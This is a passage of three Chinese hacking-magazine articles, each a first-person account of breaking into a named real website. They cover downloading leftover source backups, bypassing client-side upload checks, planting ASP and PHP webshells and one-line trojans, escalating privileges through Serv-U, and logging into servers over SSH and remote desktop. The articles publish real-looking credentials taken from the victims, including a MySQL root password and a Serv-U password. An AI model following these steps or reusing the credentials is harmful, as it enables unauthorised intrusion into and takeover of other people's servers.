
其实现在Web层面的安全隐患还是有很多的，也有很多的简单入侵办法。为什么呢？原因是来源于Google搜索和挖掘鸡这款工具的诞生。自从挖掘鸡诞生后，就提升了入侵的速度和降低了入侵的技术，使大多数人也能入侵大站。这里我就以一个例子来说明这一点。

我们先看一下http://code.vvind.com这个网站，如图1所示。这个网站上的所有链接都是由挖掘鸡挖掘出来的，主要挖掘源代码，由此我们的思路就有了，这么多RAR文件，有很多都是管理员在建立网站时忘记删除的网站源代码，或是建立完网站在备份的时候忘记删除的，那么就给我们留下了“可乘之机”。

下面就以其中的www.jihl.net这个网站为例，讲解一下怎么入侵。首先我们下载http://www.jihl.net/www.rar文件，解压缩后看看里面都是什么，如图2所示。

看到了吧，应该是网站的备份。接下来干什么呢？我们直接到数据库找后台登录地址，这样可比注入来得快多了，而且注入后不一定就能找到后台。不多说废话了，直接输入后台地址http://www.jihl.net/admin/login.asp。

在本地查看admin目录下的login.asp文件，发现包含本目录下的conn.asp，然后在conn.asp文件里找到了数据库地址，如图3所示，再打开数据库查看管理员账号和密码。

找到账户密码后直接登录后台，找上传的地方上传木马。之前说过上传漏洞在现在已经隐藏了，但当你是管理员的时候，那么就有可能可以直接上传木马了，看看我们的运气吧。找到上传的地方了，但是抓包后发现没有可利用的，如图4所示。这可以说明两个问题：一是上传路径不可自定义，二是别人来过了（这个看上面的ASP类型就知道了，我可没添加哦）。


图5


图4

```html
<script language="javascript">
function check()
{
    if(myform.file1.value=="")
```

```javascript
alert("请点击浏览按钮，选择您要上传的jpg或gif文件!")
myform.file1.focus;
return (false);
}
else
{
    str = myform.file1.value;
    strs = str.toLowerCase();
    lens = strs.length;
    extname = strs.substring(lens-4,lens);
    if(extname!='.jpg' && extname!='.gif')
    {
        alert("请选择jpg或gif文件!");
        return (false);
    }
}
}
</script>
```

那么就放弃这个地方吧，不过我可不是说放弃这个网站哦，而是放弃这个上传的地方，因为以我现在的水平好像利用不来。接着找上传，又发现了一处，添加企业荣誉可以上传。我们再来上传，我这里依然抓了包，但是抓包没什么用，刚点上传直接就弹出了“请选择jpg或gif文件！”。有过入侵网站经验的人应该了解吧，这是明显的本地验证，终于找到软柿子喽。

我们再来看一下源代码，主要代码是“`<INPUT name=image type=hidden value=> <iframe marginwidth=0 framespacing=0 marginheight=0 frameborder=0 width="426" height=25 src="picture.asp"></iframe>`”。看到了picture.asp这个关键字，那么我们就直接提交 `http://www.ijhl.net/admin/picture.asp`，上传地址出来了吧，如图5所示。我们再看一下源代码，具体如下。

我们把这段源代码保存，然后去掉这段，再把提交地址改成网站路径就行了。

```html
<form name="myform" method="post" action="upfile.asp" enctype="multipart/form-data" language="javascript" onsubmit="return check();">
<form name="myform" method="post" action="http://www.ijhl.net/admin/upfile.asp" enctype="multipart/form-data" language="javascript" onsubmit="return check();">
```

本地提交时，我们再拿出抓包工具抓上传地址，如图6所示，输入地址即可得到小马，尽情上传大马吧，如图7所示。登录木马后，看了一下服务器配置，发现盘符基本都能浏览，WScript.Shell被删掉或被改。在D盘看到了Serv-U，3389端口开放并能登录。再看下版本，发现是6.3.0.0的，这个版本应该能提权。我们再下载ServUDaemon.exe查看密码，发现账号密码改成了“linbo Administrator”和“`#l@$in#.bo;|@P`”。


图6


图7

那么我想他的端口也应该改了，事实证明了我的想法，用默认端口提权没成功。结果该怎么找呢？我用SuperScan 3.00扫了半天也没扫到，还是看看服务器上还有什么吧。看到C盘让我眼前一亮，支持PHP和Perl，如图8所示。对于Perl不太了解，而PHP则相对了解一些，那么就上传PHP木马吧。


图8

PHP木马的权限可比ASP的要高啊。我们执行命令 `netstat an`，发现58943端口有点特别，如图9所示。直接在su.asp里输入这个端口提权吧，如图10所示，再用3389登录（这里省略了在PHP里看是否添加成功了），如图11所示。


图9


图10


图11

下面进行一下总结。从下载网站源代码到上传ASP木马、上传PHP木马，再到su提权，实现成功入侵。如果管理员在任何一个环节进行了防御，那么我们的入侵就不会这么简单了，这又印证了人为漏洞才是最大的漏洞。其实入侵就那么几招，很简单的我就拿下了服务器。其实上面介绍的下载源码方式，我们还可以拓展下，比如挖掘海洋默认的打包文件HYTop.mdb，或其他的默认，而这就靠大家去发挥了。

前置知识：PHP

关键词：Linux、中国旅程网、上传漏洞

## 入侵Linux系统


文/图：梦幻剑客

一日在网上闲逛，偶然来到了“中国旅程网”，该站由PHP编写，而我正在学习PHP，于是就想对它进行一番安全测试。

随意找到几个页面提交单引号没有报错，页面返回正常，估计在php.ini中将 `magic_quotes_gpc = on` 设为on了，并将提交的单引号转成了 `\'`。在随后的测试过程中，发现程序基本上对数字型的变量都用 `intval()` 函数转换成了整型变量，对于这样的安全防范，注入是行不通的。

之后进入周边旅游栏目，发现有很多图片，查看图片的路径，发现在后台管理目录，如图1所示。在IE中输入“http://www.166china.com/zhoubian1/admin_zb/login.php”，出现了后台登录页面，应该是周边旅游这个子栏目的后台管理。尝试用“1' or '1'='1”万能密码登录，提示失败，因为在PHP中已经将`'`转成了`\'`，所以万能密码是进不去的。尝试用admin登录，成功进入后台管理，如图2所示。


图2

在后台的添加周边线路详细信息页面中有上传图片的功能，上传PHP文件和写入名称后，成功保存到upload文件夹下。后来发现该文件中有如下代码：

```php
<?php
include "auth.php";
include "header.php";
include("../../wenq/admin/FCKeditor/fckeditor.php");

$uploaddir = 'upload/';
$pic = $uploaddir . $_FILES['upfile']['name'];
move_uploaded_file($_FILES['upfile']['tmp_name'],
                   $uploaddir . $_FILES['upfile']['name']);
......
?>
```

代码中“$uploaddir='upload/';”表示将上传后的文件保存到upload文件夹下，“move_uploaded_file($_FILES['upfile']['tmp_name'], $uploaddir . $_FILES['upfile']['name']);”这句代码没有对上传文件的后缀名做任何判断，就直接上传了文件。这样的程序也会产生Bug，很容易把服务器上相同文件名的文件给覆盖掉。如此就轻松获得了WebShell，如图3所示。


图1


利用WebShell收集信息，发现该主机是Linux系统。对于Linux来说，密码文件保存在“/etc/shadow”下。之后我又上传了一个自己比较喜欢的phpwebadmin木马，在Shell命令中执行“uname -a”查看Linux内核版本号，如图4所示。


看来PHP木马在Linux环境下权限挺高了。利用“netstat -lnp”查看服务开放的端口，发现开放了22端口，它在Linux下是远程登录服务，如图5所示。


利用WebShell跳转到每个目录下寻找数据库连接文件，因为连接文件中很有可能存放着MySQL数据库的账户和密码，最后终于在include文件夹下的db.php文件中发现了账户和密码，并且是Root权限。代码如下：

```php
<?php
include ("adodb/adodb.inc.php");
$db = & ADONewConnection("mysql");
$db->Connect("","root","m8u7j6y5r4","meijia");
$db->Execute("SET NAMES GB2312");
?>
```

既然是Root权限，看了下密码的设置规则，估计这个很有可能也是Linux服务器的密码。由于本机是Windows系统，而目标主机是Linux系统，于是在本地安装连接Linux的软件Putty，再次在WebShell中执行ifconfig命令，显示出主机的IP地址等信息，如图6所示。


在Putty中输入IP，连接成功后输入密码和账户，成功登录了Linux，执行“ls -la”即可显示该目录下的所有文件，如图7所示，至此就已经成功地拿下了Linux服务器。


一般对于Linux服务器来说，本地提权漏洞比较多，如果没有拿到Root权限，可以先利用“uname -a”查看内核版本，再利用相应的溢出程序即可成功提权。文章就到这里了，大家若有什么疑问，欢迎登录黑防论坛与我交流。


前置知识：无

关键词：脚本、注入、社工

## 社工大战张家界信息港

文/图：绮城李滨（梦幻寒剑客）

张家界信息港网站信息内容很丰富，在主页看了半天也没有找到有问题的漏洞，如果有程序源代码就好了。像这样的大站，主页一般不可能有问题的，所以我们要转变思路，利用狭义旁注来找漏洞。在“视频播客”的目录下竟然有我以前分析过的芜湖播客家园网程序。本程序存在严重的SQL注入漏洞，同样也存在数据库漏洞等问题，首先访问默认的数据库路径是否存在。在浏览器地址栏中输入“http://www.zjjinfo.org/vblog/date/%23el99cn516showcn9988%23d.asp”，显示乱码说明数据库存在，并且里面没有防下载表，如图1所示。

```asp
<%
set rs=server.createobject("adodb.recordset")
sql="select * from [bgs]"
rs.open sql,Conn_User,1,3
rs.addnew
bgname=request("bgname")
point=request("point")
if not isnumeric(point) then
  response.write("<script>alert('点数必须是数字！');history.go(-1);</script>")
  response.End()
end if
bgintor=Request("bgintor")
rs("bgname")=bgname
rs("point")=point
rs("bgintor")=bgintor
id=rs("id")
rs("bgid")=right("0000000"&id,3)
rs.update
response.Redirect "admin_moban.asp"
%>
```


图1

这样我们就可以在前台插入一句话木马。以前分析这个系统的时候记得后台有个文件没有经过Session验证，导致可以直接浏览。在地址栏中输入“http://www.zjjinfo.org/vblog/admin_moban.asp”，这个文件是后台模板添加页面，翻出文件发现这段代码：

代码中对取得的bgname变量没有经过任何函数过滤，直接写入数据库中，在里面添加一句话木马，就可以成功写入数据库中，如图2所示。用一句话木马客户端连上去便可得到WebShell。拿到WebShell后，发现服务器的安全配置很差劲，WebShell可以浏览任何盘符，发现还有几个站点在这台服务器上，这意味着ASP木马的权限很高。接下来到Serv-U目录下发现没有安装Serv-U，再来到All Users目录下同样也没有安装PCAnywhere，好在管理员没有将wscript.shell去掉，这样就可以执行CMD命令了。


图2

尝试访问CMD命令提示拒绝访问，一般Windows 2003对Guest组账户都没有访问CMD的权限。我本地上传一个CMD，这样就可以执行命令了。查看端口发现开了很多服务，可是没有我所需要的端口，没有开21，只看到了常见的SQL SERVER端口1433，还有139端口，如图3所示。


图3

通过CMD命令，发现服务器的IP地址为192.168.0.253，这个地址为C类地址，应该是在局域网使用得比较多，我开始怀疑这台服务器是否处于内网中。后来在利用ASP木马的“自动登录”功能时发现管理员给我留下了一份大礼，可以清晰地显示管理员的账户和密码，以及终端服务的端口信息，如图4所示。


图4

真是得来全不费工夫啊！感觉这台服务器正在向我招手，但是IP地址明显为内网地址。尝试连接IP地址，正如我所想一样连接失败。在《黑客防线》2008年9月份的时候我曾发表过一篇和本文类似的情况，我估计这台服务器对内网IP为192.168.0.253，对外我可以用PING命令ping它网站域名，结果发现地址为220.168.206.99，这个地址一定是外网IP，这样就可以连接服务器了。在远程桌面连接器中输入IP，成功连上，输入密码和账户后也成功进入。看到这里读者朋友肯定以为服务器搞定了，可是不然，进去后只看到桌面一闪，马上桌面就被锁定了，就似和网吧一样需要密钥认证，如图5所示。


图5

既然这样，我也只好利用社会工程学了，因为服务器密码已经知道，首先尝试了下，居然失败了。再次输入服务器账户名称，成功进入服务器，如图6所示。


图6

本文到此就结束了，没有太多出彩内容，主要还是管理员安全意识不强，没有将服务器一些危险组件禁用，更没有想到的是利用WebShell竟然可以读出注册表中管理员密码和账户，然后利用自己的经验成功找到外网IP，最后利用社会工程学成功破解桌面锁定。从整个提权过程中，经验和耐心以及细心是必不可少的，希望大家能多多体会。